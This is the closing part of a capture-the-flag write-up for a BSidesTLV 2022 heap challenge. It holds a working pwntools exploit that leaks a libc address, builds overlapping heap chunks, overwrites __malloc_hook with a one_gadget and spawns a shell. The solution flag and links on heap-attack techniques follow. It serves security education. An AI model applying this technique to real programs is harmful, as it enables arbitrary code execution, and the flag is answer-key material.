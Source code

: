 ```python
    p = conn()
    p.recvuntil(b'> ')
    create_note(p,0x410,'') # 1
    create_note(p,0x410,'') # 2
    create_note(p,0xf0,'') # 3

    # leak address
    delete_note(p,0)
    leak = view_note(p,0)
    base = leak - main_arena
    gadget = base + one_gadget
    malloc_hook = base + __malloc_hook
    print(hex(base))
    delete_note(p,1)


    # overlapping chunk
    create_note(p,0x400,'') # 4
    create_note(p,0x410,p64(0) + p64(0x101)) # 5
    delete_note(p,2)
    delete_note(p,1)
    delete_note(p,4)
    create_note(p,0x410,p64(0) + p64(0x101) + p64(malloc_hook)) # 6

    create_note(p,0xf0,'') # 7
    create_note(p,0xf0,p64(gadget)) # 8

    # trigger the malloc
    p.sendline(b"1")
    p.sendline(b"1")

    p.interactive()


if __name__ == "__main__":
    main()
```

### Flag

```
BSidesTLV2022{m4st3r-th3-fr33l1s7s-m4st3r-th3-w0rld}
```

### Notes

- [https://hackmag.com/security/heap-allocation/](https://hackmag.com/security/heap-allocation/)
- [https://github.com/david942j/one_gadget](https://github.com/david942j/one_gadget)
- [https://0x3f97.github.io/how2heap/2018/01/27/overlapping-chunks/](https://0x3f97.github.io/how2heap/2018/01/27/overlapping-chunks/)
- [https://ctf-wiki.mahaloz.re/pwn/linux/glibc-heap/chunk_extend_overlapping/](https://ctf-wiki.mahaloz.re/pwn/linux/glibc-heap/chunk_extend_overlapping/)
- [https://guyinatuxedo.github.io/28-fastbin_attack/0ctf_babyheap/index.html](https://guyinatuxedo.github.io/28-fastbin_attack/0ctf_babyheap/index.html)
- [https://gist.github.com/slick1015/8b64b8e6e44d444e8b9d32e2651071fb](https://gist.github.com/slick1015/8b64b8e6e44d444e8b9d32e2651071fb)
- [https://guyinatuxedo.github.io/31-unsortedbin_attack/0ctf16_zerostorage/index.html](https://guyinatuxedo.github.io/31-unsortedbin_attack/0ctf16_zerostorage/index.html)
